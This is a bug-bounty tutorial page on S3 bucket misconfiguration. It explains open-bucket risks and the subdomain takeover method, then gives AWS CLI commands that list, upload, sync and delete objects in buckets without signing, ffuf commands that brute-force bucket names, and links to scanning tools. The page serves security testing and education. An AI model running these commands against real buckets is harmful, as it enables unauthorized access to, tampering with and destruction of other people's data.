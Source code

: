 ```yaml
---
title: S3 Bucket
layout: post
categories: [Web-Vulnerabilities,S3]
tags: [Vulnerability,Open-S3]
toc: true
published: true
---
```


# Simple Storage Service (S3)

| Content                             |
| ----------------------------------- |
| 📚 What Is S3 Misconfiguration ?    |
| 🤔 Why S3 Misconfiguration Happen ? |
| 💥 Exploitation                     |
| ⚔ Impact                            |
| 🔎 How To Find                      |
| 🛺 Automate                         |
| 🛠 Tools                             |
| ⚙ Remediation                       |
| 📕 Referance                        |


## 📚 What is S3 Bucket

### What is AWS?
**AWS** stands for **A**mazon **W**eb **S**ervices which is a secure cloud services platform, offering compute power, database storage, content delivery and other functionalities.

### What is Amazon S3?
Amazon **S3** (Simple Storage Service) is one of the popular and widely used storage services. Many companies are using **S3** buckets to store their assets such as user profile pictures, static resources, and anything as per their business logic and needs.

Files can be served either privately (via signed URLs) or publicly via an appropriately configured ACL (Access Control List) or ACP (Access Control Policy).

Like:
```ruby
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
```

---
## 🤔 Why S3 Misconfiguration Happen ?

### S3 Attacks

We will go through the specifics of each level and identify the dangerous cases where weak ACLs can create vulnerable configurations impacting the owner of the S3-bucket and/or through third party assets used by a lot of companies.

However, if the buckets are not configured properly, or are unclaimed, an attacker can probably perform some mischievous actions such as
1. **S3 Bucket Takeover**
1. **S3 Content Takeover**




---
## 💥 Exploitation 

### Requirements

To test for the access controls of the S3 Bucket, the best way is to use, AWS CLI and default commands.
1. **Install AWS CLI**
```ruby
pip install awscli
```
2. **check whether it is perfectly installed or not.**
```ruby
aws --version
```
3. **then you can make aws account and Provide AWS ACCESS Key & Secret to configure AWS CLI.**
**You can watch this [**video**](https://www.youtube.com/watch?v=HCl2_FzMxAg) Steps**

4. **Add nd Provide AWS ACCESS Key & Secret to configure AWS CLI**
```ruby
aws configure
```

### Basic tests

1. Checking for S3 Open Buckets & Finding bucket name
1. Using **AWS CLI** to Check S3 Bucket Access Controls
1. Increasing Impact by looking at all C.R.U.D (**Create**, **Read**, **Update** & **Delete**) actions.

**Listing files**

```ruby
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```
**Move a file into the bucket**

```ruby
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers

aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```
**Download every things**

```ruby
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```
**Delete Files**

```ruby
aws s3 rm s3://[bucketname]/test-file.svg --no-sign-request
```

### Subdomain takeover - S3 bucket
S3 buckets are spawned out of storage requirement and are bound to a particular domain. Sometimes these buckets are not deleted after they have served their purpose which may escalate to a complete take over of a subdomain of the host. Consider the following example:

An S3 bucket may be created and its URL (http://storage.example.com.s3-website.ap-south-1.amazonaws.com) may be bound to a subdomain(Eg: “https://storage.example.net”.) belonging to the organization to obfuscate the AWS S3 URL. This is done by adding an alternate domain name(CNAMEs).

Later when this bucket is deleted from AWS S3, but the CNAMEs record in the Route53 is not removed, an attacker may create an AWS S3 bucket with the same name and the malicious contents of this bucket will be served on the victim’s domain(eg: storage.example.net), Hence taking over the subdomain.
 
**Identifying this Vulnerability**
The first step in identifying this vulnerability is looking for an error page which has the message “404 Not Found” and has the message “NosuchBucket”.

Or from [**EdOverflow**](https://github.com/EdOverflow/can-i-take-over-xyz)

| AWS/S3 | Vulnerable | ```The specified bucket does not exist``` |
| -------- | -------- | -------- |

![](https://i.imgur.com/9BiWz1x.png)



---
## ⚔ Impact

**Possible vulnerabilities:**
1. **Reflected XSS.**
1. **Stored XSS / asset control.** HTML-file.
1. **Denial of server.**
1. **Information disclosure.** If we can list objects we might find sensitive information.
1. **RCE.** If the bucket contains modifiable executables this can result in Remote Code Execution (RCE) depending on where the executables are being used and if/by whom they are being downloaded.

---
## 🔎 How To Find

### FFUF

```ruby=
ffuf -u http://FUZZ.s3.amazonaws.com -w  subdomains.txt | anew -a s3_buckets_subs.txt
ffuf -u http://s3.amazonaws.com/FUZZ -w  subdomains.txt | anew -a s3_buckets_dirs.txt
```

You can put this in your recon after get subdomains steps or just using one of Tools Below 

Follow Twitter #BugBountyTips hashtag to get new tricks to find s3 bucket during your Recon or by using Automated Tools like: 

**Lazy S3**,**S3Scanner**,**S3 Bucket Finder** & **Mass3**

---
## 🛠 Tools

[**Lazy S3:**](https://github.com/nahamsec/lazys3) A Ruby script to bruteforce for AWS s3 buckets using different permutations.
[**Mass3:**](https://github.com/smiegles/mass3)Quickly enumerate through a pre-compiled list of AWS S3 buckets using DNS instead of HTTP with a list of DNS resolvers and multi-threading.
[**S3 Bucket Finder:**](https://github.com/gwen001/s3-buckets-finder) PHP tool to brute force Amazon S3 bucket
[**S3Scanner:**](https://github.com/sa7mon/S3Scanner) A tool to find open S3 buckets and dump their contents


---
## ⚙ Remediation

Make sure all the Amazon S3 buckets you are using are marked as private.


---
## 📕 Referance

[**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/AWS%20Amazon%20Bucket%20S3)
[**janijay007**](https://medium.com/@janijay007/s3-bucket-misconfiguration-from-basics-to-pawn-6893776d1007)
[**detectify**](https://labs.detectify.com/2017/07/13/a-deep-dive-into-aws-s3-access-controls-taking-full-control-over-your-assets/?utm_source=blog&utm_campaign=s3_buckets)
[**pravinponnusamy**](https://pravinponnusamy.medium.com/bug-hunting-aws-s3-bucket-public-read-write-permissions-enabled-477cc246e60e)
[**Harsh Bothra**](https://infosecwriteups.com/s3-bucket-misconfigured-access-controls-to-critical-vulnerability-6b535e3df9a5)
[**EdOverflow**](https://github.com/EdOverflow/can-i-take-over-xyz/issues/36)
